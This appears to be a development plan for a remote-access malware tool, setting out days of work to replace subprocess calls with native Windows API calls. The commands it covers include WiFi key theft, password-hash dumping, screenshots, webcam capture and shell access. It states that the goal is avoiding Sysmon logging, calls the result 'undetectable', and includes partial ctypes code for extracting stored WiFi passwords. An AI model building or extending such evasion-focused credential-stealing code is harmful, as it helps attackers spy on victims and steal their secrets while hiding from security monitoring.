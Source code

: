 
## 🔧 DAY 4-8: SUBPROCESS ELIMINATION

### **Objective:** Replace ALL 48 subprocess calls with native APIs

This is the most labor-intensive fix. Each file requires custom native API implementation.

### **Priority Order:**
1. **Critical commands** (Day 4): wifikeys, hashdump, privileges, processes
2. **System commands** (Day 5-6): systeminfo, network, screenshot, webcam
3. **File commands** (Day 7): ls, cat, rm, mkdir, etc.
4. **Utility commands** (Day 8): shell, ssh, freeze, etc.

### **Example Fix: elite_wifikeys.py**

**OLD CODE (uses subprocess):**
```python
def elite_wifikeys() -> Dict[str, Any]:
    result = subprocess.run(
        ['netsh', 'wlan', 'show', 'profiles'],
        capture_output=True
    )
    # ❌ Logged by Sysmon Event ID 1
```

**NEW CODE (native Windows API):**
```python
def elite_wifikeys() -> Dict[str, Any]:
    """
    Get WiFi passwords using Native WiFi API
    NO subprocess calls - undetectable
    """
    try:
        # Load wlanapi.dll
        wlanapi = ctypes.windll.LoadLibrary("wlanapi.dll")
        
        # Open WLAN handle
        client_handle = wintypes.HANDLE()
        negotiated_version = wintypes.DWORD()
        
        result = wlanapi.WlanOpenHandle(
            2,  # Client version
            None,
            ctypes.byref(negotiated_version),
            ctypes.byref(client_handle)
        )
        
        if result != 0:
            return {"success": False, "error": "Failed to open WLAN handle"}
        
        # Enumerate interfaces
        interface_list_ptr = ctypes.c_void_p()
        result = wlanapi.WlanEnumInterfaces(
            client_handle,
            None,
            ctypes.byref(interface_list_ptr)
        )
        
        if result != 0:
            wlanapi.WlanCloseHandle(client_handle, None)
            return {"success": False, "error": "Failed to enumerate interfaces"}
        
        # Parse WLAN_INTERFACE_INFO_LIST structure
```
